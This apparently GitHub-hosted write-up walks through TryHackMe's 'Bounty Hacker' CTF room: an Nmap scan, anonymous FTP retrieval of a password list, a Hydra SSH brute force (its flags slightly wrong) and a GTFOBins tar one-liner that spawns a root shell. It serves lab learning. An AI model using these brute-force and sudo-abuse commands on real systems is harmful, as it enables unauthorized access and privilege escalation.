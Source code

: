 ### Bounty Hacker CTF Writeup

## Link: https://tryhackme.com/room/cowboyhacker

Our first step is to always begin with enumeration, we can use alot of tools to do this but we are going to use the most popular enumeration tool called 'Nmap' 

`┌──(--㉿kali)-[~]
└─$ nmap 10.10.81.164 -sV -sC
`



`
PORT   STATE SERVICE VERSION
`



`
21/tcp open  ftp     vsftpd 3.0.3
`



`
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
`



`
80/tcp open  http    Apache httpd 2.4.18 
`



From this Nmap scan we see that there are 3 ports open: port 21, 22 and 80
Importantly, we see that on port 21 there is 'Anonymous FTP login allowed' (This means that we can login as user anonymous and provide no password)


### The web-server:

If he head over to the website running this machine (which you can access by going to http://<machine_ip>) we are greeted by this main page:

![image](https://github.com/traveller404/Bounty-Hacker-CTF-/assets/92340426/757a9125-6535-4cee-af12-d83a835361d5)

Reading through this we are greeted by characters called Spike, Jet, Ed and Faye and we also learn of 2 other people called Edward and Ein.
These could be possible usernames for the ssh service running on port 22.

Inspecting the source code of the webpage reveals nothing ontop of this.

### The FTP service:

Log into the FTP service on the machine with the following command:

ftp <machine_ip>

Connected to 10.10.81.164.
Name (10.10.81.164:--): anonymous

230 Login successful.

Using `ls` we can see the files on this ftp service and we are told there are 2 .txt files, tasks.txt and locks.txt
Use `mget *` as a means to get all files to your local device then exit the ftp service

### SSH Access

The contents of task.txt contain another person, Lin, but locks.txt is more useful
It is a file containing presumably passwords, and with the list of potential usernames we collected earlier from the website and Lin from task.txt, its time to commence a brute force attack

To do this attack we must make a file containing the usernames, which for convenience sake we will call users.txt and then write our command

`hydra -l users.txt -P locks.txt ssh://<machine_ip -V>`

SUCCESS!!! 
We now have a username and password

### Privelege Escalation

`ssh lin@<machine_ip>`

Logging on we see the first flag, which you can get yourself
But we are not done, we need to get the root flag, which we dont have access to, we need to escalate our privelleges
Using `sudo -l` we can see what we can run as sudo, which is tar, go to https://gtfobins.github.io/# and search up tar, I will let you do this on your own

If you have found the right command it should be 
`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

Executing this gives us root permissions, meaning we have full control over the machine
Change to /root and get the flag

I hope this helps!!
